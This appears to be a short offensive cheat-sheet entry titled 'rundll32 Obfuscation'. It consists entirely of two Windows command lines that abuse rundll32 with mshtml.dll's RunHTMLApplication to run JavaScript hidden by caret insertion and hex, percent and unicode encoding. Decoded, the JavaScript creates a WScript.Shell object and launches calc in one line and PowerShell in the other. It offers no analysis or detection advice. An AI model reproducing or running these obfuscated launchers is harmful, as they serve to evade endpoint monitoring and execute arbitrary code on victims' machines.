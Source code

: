 ### rundll32 Obfuscation

calc

`C:\> @run^dll^32 java^script:"\..\mshtml.dll,RunHTMLApplication ";%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%29;%6e%65%77%20%41%63%74%69%76%65%58%4f%62%6a%65%63%74%28'\x57\x53\x63\x72\x69\x70\x74\x2e\x53\x68\x65\x6c\x6c'%29.%52%75%6e%28'\u0063\u0061\u006c\u0063'%29`

powershell

`C:\> @run^dll^32 java^script:"\..\mshtml.dll,RunHTMLApplication ";%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%29;%6e%65%77%20%41%63%74%69%76%65%58%4f%62%6a%65%63%74%28'\x57\x53\x63\x72\x69\x70\x74\x2e\x53\x68\x65\x6c\x6c'%29.%52%75%6e%28'\u0070\u006f\u0077\u0065\u0072\u0073\u0068\u0065\u006c\u006c'%29`
